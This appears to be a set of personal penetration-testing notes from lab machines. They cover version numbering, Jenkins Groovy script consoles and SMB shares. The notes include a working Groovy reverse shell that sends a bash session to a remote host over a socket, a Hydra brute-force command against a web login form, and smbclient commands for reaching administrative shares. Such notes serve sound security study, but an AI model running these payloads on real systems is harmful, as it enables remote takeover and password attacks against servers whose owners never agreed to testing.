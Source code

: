 
* What does versions of software mean?   

    <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/8/82/Semver.jpg/440px-Semver.jpg">  


* Groovy Script   
Groovy is a scripting language with Java-like syntax for the Java platform

* XBruteForcer to bruteforce certain CRMs?

* BruteX to bruteforce passwords.

* Hydra example (Not sure of functionality just yet)   
```
$ hydra -l admin -P /home/kali/Documents/cloned_reps/SecLists/Passwords/2020-200_most_used_passwords.txt -vV -f -t 5 10.129.157.36 http-post-form "/\\login:j_username=^USER^&j_password=^PASS^:loginError"

```

* Exploiting the ability to execute arbitrary groovy script in script console in jenkins admin page:

```groovy
String host="10.10.15.82";
int port=1234;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* What is SMB?  
<blockquote>
The Server Message Block protocol (SMB protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. It can also carry transaction protocols for interprocess communication. Over the years, SMB has been used primarily to connect Windows computers, although most other systems -- such as Linux and macOS -- also include client components for connecting to SMB resources.
</blockquote>

* How to use smbclient to view available shares:  
```
smbclient -L \\\\10.129.158.38 -U 'administrator'
```

* To access a share just remove the `-L` and specify the name of the share:  
```
smbclient \\\\10.129.158.38\\ADMIN$ -U 'administrator'
```

* The `$` means that this share is an administrative share.  

* We can use the command `get` inside the smb prompt to download files on our own box.

* `xp_cmdshell` allows me to spawn a Windows shell.
